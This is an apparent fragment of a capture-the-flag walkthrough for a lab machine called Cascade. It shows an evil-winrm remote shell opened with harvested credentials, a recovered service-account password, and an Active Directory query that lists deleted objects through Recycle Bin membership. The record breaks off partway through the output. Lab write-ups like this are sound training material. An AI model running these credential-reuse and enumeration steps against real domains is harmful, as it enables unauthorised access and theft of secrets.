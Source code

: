 ### winrm-shell

    ➜  cascade evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'         
                                            
    Evil-WinRM shell v3.7
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                     
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                       
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\s.smith\Documents> 


    \Casc-DC1\Audit$ -> Shares

    ArkSvc : 'w3lc0meFr31nd'

    *Evil-WinRM* PS C:\Users\arksvc\Documents> net user arksvc
    User name                    arksvc
    Full Name                    ArkSvc
    Comment
    User's comment
    Country code                 000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            1/9/2020 4:18:20 PM
    Password expires             Never
    Password changeable          1/9/2020 4:18:20 PM
    Password required            Yes
    User may change password     No

    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   12/23/2024 1:03:33 PM

    Logon hours allowed          All

    Local Group Memberships      *AD Recycle Bin       *IT

    AD Recycle Bin

## AD Recycle Bin

    Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *


    *Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *


    accountExpires                  : 9223372036854775807
    badPasswordTime                 : 0
    badPwdCount                     : 0
    CanonicalName                   : cascade.local/Deleted Objects/CASC-WS1
                                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
    CN                              : CASC-WS1
                                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
    codePage                        : 0
    countryCode                     : 0
    Created                         : 1/9/2020 7:30:19 PM
    createTimeStamp                 : 1/9/2020 7:30:19 PM
    Deleted                         : True
    Description                     :
    DisplayName                     :